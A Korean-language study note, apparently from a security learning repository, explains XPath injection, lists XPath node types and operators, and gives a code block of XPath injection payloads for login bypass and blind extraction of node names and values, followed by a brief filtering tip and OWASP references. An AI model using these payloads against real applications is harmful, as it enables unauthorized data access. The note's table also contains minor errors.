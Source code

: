# XPath Injection

## XPath Injection?

XML 구조에 악의적인 행위를 일으키는 내용을 삽입하거나 Xpath를 조작하여 XML의 내용을 노출하는 취약점이다.

SQL Injection과 마찬가지로 XPath Injection은 XML 데이터에 대한 XPath 쿼리를 구성할 때 발생됩니다.

의도적으로 조작한 내용을 전송함으로써 XML 데이터가 구성을 보거나, 액세스할 수 없는 데이터를 액세스할 수 있습니다. XML 데이터가 인증에 사용되는 경우 웹 사이트에 대한 권한을 높일 수도 있습니다.

<br>

### XPath?

XPath는 XML 문서를 노드 트리로 모델링하여 경로 표현식(Path Expression)을 통해 XML 문서의 노드 또는 노드 집합을 선택한다. XPath 노드들은 총 7개로 구성되어 있으며, 이러한 노드에 접근하기 편하도록 XPath는 다양한 명령어를 제공한다.

XPath는 XSLT와 XPointer에서 모두 사용하도록 설계된 XML 문서의 일부를 처리하기 위한 언어입니다. 대부분의 경우 XPath 표현식은 문서의 한 노드에서 다른 노드로 이동하는 데 필요한 일련의 단계를 나타냅니다.

XPath는 일종의 쿼리로 XML 데이터베이스 내용을 선택하고 조작하기 위하여 사용한다.

<br>

### XPath Node

- root nodes
- element nodes
- text nodes
- attribute nodes
- namespace nodes
- processing instruction nodes
- comment nodes

<br>

### XPath 명령어

|명렁어|설명|
|:---:|:---:|
|/|최상위 노드|
|//|현재 노드|
|*|모든 노드 조회|
|.|현재 노드|
|..|현재 상위 노드 접근|
|parent|현재 노드의 부모 노드|
|child|현재 노드의 자식 노드|
|[]|조건문|
|node()|현재 노드로부터 모든 노드 조회|

<br>

## 🚩 Offensive techniques

```
' or 1=1 or '

[true value]' and count(../child::*)=[1,2,3 ...] or 'a'='b

[true value]' and string-length(name(parent::*))=[1,2,3 ...] or 'a'='b

[true value]' and substring(name(parent::*),1,1)=[value] or 'a'='b

[true value]' and string-length(name(../child::*[position()=1]))=[1,2,3 ...] or 'a'='b

[true value]' and substring(name(../child::*[position()=1]),1,1)=[value] or 'a'='b

[true value]' and substring(name(.),1,1)=[value] or 'a'='b

[true value]' and count(/heroes/hero/child::*)=[1,2,3 ...] or 'a'='b

[true value]' and string-length(name(//hero[1]/child::*[position()=1]))=[1,2,3 ...] or 'a'='b

[true value]' and substring(name(//hero[1]/child::*[position()=1]),1,1)=[value] or 'a'='b

[true value]' and string-length(string(//hero[1]/id))=[value] or 'a'='b

[true value]' and substring(string(//hero[1]/id),1,1)=[value] or 'a'='b
```

<br>

## 🛡 Denfensive techniques

' [ ] : , * / 스페이스바 를 공백으로 대체합니다. replace 함수를 이용해서 인젝션에 사용되는 문자를 공백으로 대체합니다. 즉, 필터링 합니다.

<br>

## Reference

https://owasp.org/www-community/attacks/XPATH_Injection

https://ethical-hack.tistory.com/25
